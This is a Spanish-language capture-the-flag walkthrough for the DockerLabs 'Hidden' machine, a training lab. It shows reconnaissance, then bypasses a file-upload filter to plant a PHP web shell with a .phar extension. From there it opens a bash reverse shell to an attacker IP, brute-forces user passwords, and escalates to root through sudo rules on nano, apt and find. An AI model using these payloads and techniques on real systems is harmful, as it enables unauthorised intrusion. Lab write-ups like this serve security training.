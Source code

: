# Máquina Hidden

***

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://hidden.lab/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost
```

Entramos a la web para inspeccionar la página web. Como solo está abierto el puerto 80, sabemos que la intrusión va a ser vía web.

Al poner la IP en la url, vemos que no carga la página e intenta cargar "**hidden.lab**", por lo que lo añadiremos a nuestro **/etc/hosts**.

```shell
sudo nano /etc/hosts
```

Añadimos: "172.17.0.2 hidden.lab"

Ya podemos ver la web:

![Pasted image 20240416224904](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ac385b73-00c6-4a1a-b382-b5f69c5182d4)

Aplicamos **fuzzing** por ejemplo con gobuster, para encontrar archivos y directorios. Encontramos directorios como **/mail** o **/js** pero tras inspeccionarlos no hay nada interesante. Por lo que procedemos a enumerar posibles subdominios, tarea para la cual podemos utilizar también gobuster:

```shell
gobuster vhost -u http://hidden.lab/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 | grep -v "302"
----------------------------------------------------------------------------------------------
Found: dev.hidden.lab (Status: 200) [Size: 1653]    
```

Encontramos **dev.hidden.lab**, lo tendremos que añadir también al **/etc/hosts** y lo abriremos en el navegador.

![Pasted image 20240416225128](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a938e51-5cd2-4b55-b802-1926019929c7)

Nos encontramos ante un campo de subida de archivos. Es posible que tengamos que abusar de este para ganar acceso a la máquina.

Aplicamos **Fuzzing** sobre este nuevo subdominio con **gobuster**.

```shell
gobuster dir -u http://dev.hidden.lab/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
-----------------------------------------------------------------------------------------------
/uploads              (Status: 301) [Size: 318] [--> http://dev.hidden.lab/uploads/]
/index.html           (Status: 200) [Size: 1653]                                    
/upload.php           (Status: 200) [Size: 74]                                      
/server-status        (Status: 403) [Size: 279]    
```

Encontramos un directorio **/uploads** que será interesante de cara a subir un archivo malicioso donde lo podamos tener ubicado.

***

## Explotación

Trataremos de subir un archivo **cmd.php** con la sintaxis típica para conseguir un **RCE** (Remote Code Execution) en la web.

```php
<?php
	system($_GET['cmd']);
?>
```

Lo intentamos subir pero nos dice que no se permite subir archivos con extensión **.php**.

Si probamos con otras extensiones válidas también para php. Como pueden ser .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, etc.

He ido probando varias, y deja subirlas todas, pero no todas son interpretadas. Finalmente tras probar varias veces, conseguimos que nos interprete el archivo **cmd.phar**.

![Pasted image 20240416230402](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1a2b542c-8d4b-4be2-a9e4-072e89773d4f)

Nos enviamos la reverse shell, poniéndonos en escucha con **netcat** en la máquina atacante:

```shell
sudo nc -nlvp 443
```

Nos la enviamos desde la url con:

```shell
http://dev.hidden.lab/uploads/cmd.phar?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.40/443 0>%261"
```

Estamos dentro !

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Revisamos capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia los usuarios del sistema desde la propia máquina. Nos transferiremos el script -> [Script de fuerza bruta](https://github.com/Maalfer/Sudo\_BruteForce/blob/main/Linux-Su-Force.sh) Y también el diccionario **rockyou**.

**Transferir los archivos a la máquina víctima**: La máquina no cuenta con **wget** ni con **curl**. Una forma de transferirlos es en el campo de subida de archivos de la web que hemos vulnerado, en el dominio **dev.hidden.lab**. Para el script no hay problema, lo subimos y ya lo tenemos en el directorio **uploads** dentro de la máquina. Para el diccionario **rockyou**, como es enorme, me he transferido las 200 primeras líneas a un **.txt** y ha sido ese el que he subido.

Vemos que usuarios hay en el sistema:

```shell
cat /etc/passwd
```

Vemos 3 usuarios, **john**, **cafetero** y **bobby** Nos situamos en el directorio **/uploads** donde tenemos el script de fuerza bruta y el diccionario y lo ejecutamos:

```shell
chmod +x Linux-Su-Force.sh
./Linux-Su-Force.sh cafetero rockyou2.txt 
------------------------------------------------
Contraseña encontrada para el usuario cafetero: 123123
```

Tras probar a hacer fuerza bruta contra el usuario **cafetero**, encontramos sus credenciales. Tenemos la contraseña **123123** con la que podemos migrar al usuario **cafetero**

Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User cafetero may run the following commands on 8a54f4a7597f:
    (john) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario **john**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo -u john /usr/bin/nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

!\[\[Pasted image 20240415220430.png]]

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
john
```

Hemos migrado al usuario **john**. Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User john may run the following commands on 3e1d7f4234cf:
    (bobby) NOPASSWD: /usr/bin/apt
```

Podemos ejecutar **apt**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario **john**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo -u bobby /usr/bin/apt changelog apt
!/bin/bash
```

```shell
whoami
----------------------
bobby
```

Hemos conseguido migrar al usuario **bobby**. Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User bobby may run the following commands on 3e1d7f4234cf:
    (root) NOPASSWD: /usr/bin/find
```

Podemos ejecutar **find** como **root**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo find . -exec /bin/sh \; -quit
whoami
----------------------------------------
root
```

Hemos alcanzado el nivel de privilegios máximo en el sistema !
